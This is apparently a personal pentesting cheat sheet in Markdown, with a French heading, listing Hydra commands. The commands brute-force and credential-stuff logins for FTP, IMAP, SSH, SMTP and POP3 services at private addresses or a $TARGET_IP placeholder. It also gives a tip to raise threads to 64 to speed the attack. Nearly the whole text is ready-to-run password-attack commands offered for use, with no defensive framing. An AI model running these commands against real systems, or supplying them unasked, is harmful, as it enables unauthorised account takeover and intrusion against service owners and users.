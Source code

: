 ```yaml
---
public: true # set to true to make the article publishable
---
```

```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```

## Augmenter la rapidité de l'attaque

On peut utiliser `-t 64` pour augmenter le nombre de threads

```
hydra -l sam -P mut_password.list ftp://$TARGET_IP -t 64 
```

[[Hydra]]